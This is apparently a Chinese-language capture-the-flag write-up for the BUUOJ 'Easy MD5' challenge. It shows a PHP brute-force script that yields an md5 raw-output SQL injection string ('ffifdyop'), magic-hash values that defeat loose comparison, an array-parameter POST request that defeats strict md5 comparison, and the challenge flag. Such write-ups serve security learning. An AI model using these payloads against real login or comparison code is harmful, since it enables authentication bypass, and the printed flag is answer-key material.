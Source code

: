 # Easy MD5

[题目地址](https://buuoj.cn/challenges#[BJDCTF2020]Easy%20MD5)

网站就一个框给你填，翻了源代码也没东西。我找提示的水平就这样了，看[wp](https://blog.csdn.net/xhy18634297976/article/details/122747034)才知道服务器发给我们的包里有提示，chrome可以直接在network看到。

```
HTTP/1.1 200 OK
Server: openresty
Date: Thu, 27 Oct 2022 04:11:30 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Hint: select * from 'admin' where password=md5($pass,true)
X-Powered-By: PHP/7.3.13
```

下次连这里也要留心眼了。hint指示的应该是提交的内容被放入sql语句中的方式，$pass是提交的内容，[md5](https://www.php.net/manual/zh/function.md5.php)的第二个参数指示md5 摘要将以 16 字符长度的原始二进制格式返回。原始二进制代表返回值不再是我们熟悉的16进制形式，什么稀奇古怪的玩意都会出现，包括引号。等一下，引号？这不就可以闭合了吗？好家伙我们要用md5值来sql注入。要找一个md5值是' or 'xxxx的字符串，sql注入基操。

```php
<?php 
for ($i = 0;;) { 
 for ($c = 0; $c < 1000000; $c++, $i++)
  if (stripos(md5($i, true), '\'or\'') !== false)
   echo "\nmd5($i) = " . md5($i, true) . "\n";
 echo ".";
}
?>
```

这是大佬的脚本，得到ffifdyop，md5加密后会返回'or'6XXXXXXXXX(这里的XXXXX是一些乱码和不可见字符)。因为sql和php的特性很像，做布尔判断时，以数字开头的字符串会被当做整型数，所以6XXXXXXXXX会被看成6，6也能表示true，成功绕过。

进入下一关。这回源代码有提示了。

```php
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
```

要求a不等于b但是a的md5值弱等于b的md5值。弱等于就很灵魂，php智能这点人尽皆知了，== 在进行比较的时候，会先将两边的变量类型转化成相同的，再进行比较。如果两边的md5值都是0e，php就会把它视为科学计数法，而0e后面是什么不重要，0的多少次方还是0，无论如何都会想等。上面的md5官方文档评论区中就给了这样两个字符串：240610708和QNKCDZO。get传参后来到最后一关。

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```

一样的套路，但是这回是强等于了，怎么办？这就不得不提到md5的特性了：如果传入的两个参数不是字符串，而是数组，md5()函数无法解出其数值时，会报警告，但是还能得到===强比较的值相等。可以做个实验。

```php
<?php
$a[]=1;
$b[]=2;
if(md5($a)===md5($b)){
	echo "yes";
}
?>
```

输出yes。post得到flag。

```
POST /levell14.php HTTP/1.1
Host: 154fe26d-aae4-4ce3-8884-43ba62b3fb83.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

param1[]=1&param2[]=2
```

为什么$_POST['param1']能取到param1[\]的值？因为param1[\]代表数组，param1\[\]的名字还是param1，[]仅仅指示这是个数组，跟名字没关系。

### Flag
- flag{5c74f362-c738-480d-b614-b5bd5c15b83b}